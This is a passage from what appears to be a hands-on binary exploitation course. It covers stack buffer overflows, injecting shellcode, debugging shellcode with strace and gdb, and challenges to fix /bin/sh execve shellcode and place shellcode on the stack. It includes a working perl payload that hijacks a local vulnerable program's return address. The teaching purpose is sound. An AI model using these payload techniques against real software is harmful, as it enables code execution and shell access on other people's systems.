 Now all we need to do is concatenate our two payloads:

```
$ perl -e "print \"$(hexdump -v -e '"\\" 1/1 "x%02x"' ./hello_shellcode.bin)\" . \"A\" x (128 - 42) . \"A\" x (16 + 8) . \"\x60\x40\x40\x00\x00\x00\x00\x00\"" | ./vuln
Hello, world!
[1]    53760 done                              perl -e  |
       53762 segmentation fault (core dumped)  ./vuln
```

As you can see, even with simple exploits, payloads quickly become unwieldy. Our advice is to make use of a script in a language like python. There is one such script example in the task directory.

Even though we succeeded in printing our message, the program then ended abruptly with a _Segmentation fault_. Pause for a second to figure out why that is.

<details><summary>Answer here</summary></details>

## 05. Tutorial: Debugging shellcodes

How can we **know** that our shellcode worked properly? Sometimes its external effects are not immediately visible; if it involves any system calls, we can make use of `strace`:

```
$ printf '1'$(hexdump -v -e '"\\" 1/1 "x%02x"' exit_shellcode.bin) | strace ./vuln2
execve("./vuln2", ["./vuln2"], 0x7ffdb027a9d0 /* 77 vars */) = 0
....
exit(42)                                = ?
+++ exited with 42 +++
```

A more productive approach is to use `gdb` to inspect the execution of the shellcode step by step. Load the program, break on the shellcode address, feed it the input and run:

<details><summary>GDB output</summary></details>

# Challenges

## 06. Challenge: /bin/sh shellcode

You are given a piece of assembly code that attempts to spawn a shell with the aid of the `execve` syscall. However, the given code is buggy and it will not work. Your task is to figure out what's wrong with it and fix it.

## 07. Challenge: shellcode on stack

Up until now we have injected code into some memory area, then used a stack-buffer-overflow vulnerability to overwrite a saved return address and hijack control flow. If we think about it, the legitimately reserved buffer space on the stack _is_ a memory area and we could perform our attack using a single read: the overflowing one.

So our payload will consist of the bytes in our shellcode, then some junk to pad the rest of the space to the saved return, then the address of the buffer itself:

